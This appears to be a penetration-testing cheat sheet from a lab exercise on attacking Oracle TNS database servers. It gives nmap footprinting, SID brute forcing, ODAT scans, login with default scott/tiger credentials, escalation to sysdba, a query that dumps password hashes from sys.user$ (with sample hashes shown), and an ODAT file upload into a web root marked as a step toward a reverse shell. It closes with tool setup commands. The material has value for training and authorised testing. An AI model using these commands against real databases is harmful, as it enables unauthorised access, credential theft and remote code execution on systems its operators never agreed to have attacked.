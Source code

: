 ### Footprinting:

$ `sudo nmap -p1521 -sV 10.129.204.235 --open`

### SSID Brute Force:

`$ sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`

### ODAT:

$ `./odat.py all -s 10.129.204.235`

### SQLplu - Log In:

`$ sqlplus scott/tiger@10.129.204.235/XE`

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

`$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`

### Oracle RDBMS - Interaction

:

`SQL> select table_name from all_tables;`

`TABLE_NAME`

`------------------------------`

`DUAL`

`SYSTEM_PRIVILEGE_MAP`

`TABLE_PRIVILEGE_MAP`

`STMT_AUDIT_OPTION_MAP`

`AUDIT_ACTIONS`

`WRR$_REPLAY_CALL_FILTER`

`HS_BULKLOAD_VIEW_OBJ`

`HS$_PARALLEL_METADATA`

`HS_PARTITION_COL_NAME`

`HS_PARTITION_COL_TYPE`

`HELP`

`...SNIP...`

`SQL> select * from user_role_privs;`

`USERNAME                       GRANTED_ROLE                   ADM DEF OS_`

`------------------------------ ------------------------------ --- --- ---`

`SCOTT                          CONNECT                        NO  YES NO`

`SCOTT                          RESOURCE                       NO  YES NO`

### Oracle RDBMS - Database Enumeration

:

`$ sqlplus scott/tiger@10.129.204.235/XE as sysdba`

`SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023`

`Version 21.4.0.0.0`

`Copyright (c) 1982, 2021, Oracle. All rights reserved.`

`Connected to:`

`Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production`

`SQL> select * from user_role_privs;`

`USERNAME                       GRANTED_ROLE                   ADM DEF OS_`

`------------------------------ ------------------------------ --- --- ---`

`SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO`

`SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO`

`SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO`

`SYS                            AQ_USER_ROLE                   YES YES NO`

`SYS                            AUTHENTICATEDUSER              YES YES NO`

`SYS                            CONNECT                        YES YES NO`

`SYS                            CTXAPP                         YES YES NO`

`SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO`

`SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO`

`SYS                            DBA                            YES YES NO`

`SYS                            DBFS_ROLE                      YES YES NO`

`USERNAME                       GRANTED_ROLE                   ADM DEF OS_`

`------------------------------ ------------------------------ --- --- ---`

`SYS                            DELETE_CATALOG_ROLE            YES YES NO`

`SYS                            EXECUTE_CATALOG_ROLE           YES YES NO`

`...SNIP...`

### Oracle RDBMS - Extract Password Hashes:

`SQL> select name, password from sys.user$;`

`NAME                           PASSWORD`

`------------------------------ ------------------------------`

`SYS                            FBA343E7D6C8BC9D`

`PUBLIC`

`CONNECT`

`RESOURCE`

`DBA`

`SYSTEM                         B5073FE1DE351687`

`SELECT_CATALOG_ROLE`

`EXECUTE_CATALOG_ROLE`

`DELETE_CATALOG_ROLE`

`OUTLN                          4A3BA55E08595C81`

`EXP_FULL_DATABASE`

`NAME                           PASSWORD`

`------------------------------ ------------------------------`

`IMP_FULL_DATABASE`

`LOGSTDBY_ADMINISTRATOR`

`...SNIP...`

### Oracle RDBMS - File Upload (For reverse shell):

`$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt`

`$ curl -X GET http://10.129.204.235/testing.txt`

### ODAT setup for TNS server:

`$ wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip`

`wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip`

`sudo mkdir -p /opt/oracle`

`sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip`

`sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip`

`export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH`

`export PATH=$LD_LIBRARY_PATH:$PATH`

`source ~/.bashrc`

`cd ~`

`git clone https://github.com/quentinhardy/odat.git`

`cd odat/`

`pip install python-libnmap`

`git submodule init`

`git submodule update`

`pip3 install cx_Oracle`

`sudo apt-get install python3-scapy -y`

`sudo pip3 install colorlog termcolor passlib python-libnmap`

`sudo apt-get install build-essential libgmp-dev -y`

`pip3 install pycryptodome`

`--2025-06-24 00:24:53--  https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip`

`Resolving download.oracle.com (download.oracle.com)... 23.58.104.121`

`Connecting to download.oracle.com (download.oracle.com)|23.58.104.121|:443... connected.`

`HTTP request sent, awaiting response... 200 OK`

`Length: 79386308 (76M) [application/zip]`

`Saving to: 'instantclient-basic-linux.x64-21.4.0.0.0dbru.zip'`

`<SNIP>`